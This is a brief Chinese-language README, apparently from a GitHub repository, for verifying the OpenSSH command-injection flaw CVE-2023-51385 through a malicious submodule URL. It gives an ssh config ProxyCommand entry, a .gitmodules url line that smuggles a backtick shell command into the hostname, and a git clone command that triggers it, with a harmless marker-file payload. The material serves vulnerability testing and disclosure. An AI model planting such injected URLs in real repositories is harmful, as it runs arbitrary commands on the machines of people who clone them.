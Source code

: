 ## 验证CVE-2023-51385

### 首先需要在`~/.ssh/config`增加如下

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

`.gitmodules`文件语句中存在命令注入

```
url = ssh://`echo helloworld > ~\/cve.txt`foo.example.com/bar
```

配置完成后,执行下面的指令触发

```
git clone https://github.com/zls1793/CVE-2023-51385_test --recurse-submodules
```

如果成功执行将会在~目录下生成cve.txt文件

详细信息见这篇博客:

https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html

